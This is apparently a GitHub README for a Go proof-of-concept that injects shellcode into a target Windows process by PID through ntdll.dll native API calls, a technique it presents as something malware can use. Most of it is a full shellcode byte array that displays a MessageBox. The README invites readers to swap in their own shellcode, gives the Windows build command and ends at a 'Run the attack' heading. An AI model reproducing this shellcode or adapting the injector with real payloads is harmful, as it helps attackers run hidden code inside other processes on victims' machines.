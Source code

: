 # NT API Injection
This is a tecnique that allow a malware inject shellcode to a target PID. 
Use the NATIVE API windows -> ntdll.dll

In this case the program injects a shellcode that run a MessageBox.
If you want change the shellcode, you need found on the source code this variable: 
```
var codeS = []byte{0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,
	0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
	0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,
	0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
	0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
	0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
	0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,
	0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,0x00,0x00,0x00,
	0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
	0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,
	0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,
	0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
	0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
	0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
	0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,
	0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,
	0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
	0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,
	0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x3e,0x48,0x8d,
	0x8d,0x34,0x01,0x00,0x00,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,
	0xd5,0x49,0xc7,0xc1,0x40,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,
	0x0e,0x01,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x23,0x01,0x00,0x00,
	0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,
	0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x50,0x4f,
	0x43,0x20,0x4e,0x54,0x20,0x41,0x50,0x49,0x20,0x49,0x4e,0x4a,
	0x45,0x43,0x54,0x49,0x4f,0x4e,0x00,0x4e,0x54,0x20,0x41,0x50,
	0x49,0x20,0x49,0x4e,0x4a,0x45,0x43,0x54,0x49,0x4f,0x4e,0x00,
	0x75,0x73,0x65,0x72,0x33,0x32,0x2e,0x64,0x6c,0x6c,0x00};
```
And change the byte code with a your custom.

To build:
```
GOOS=windows GOARCH=amd64 go build main.go
```
## Run the attack
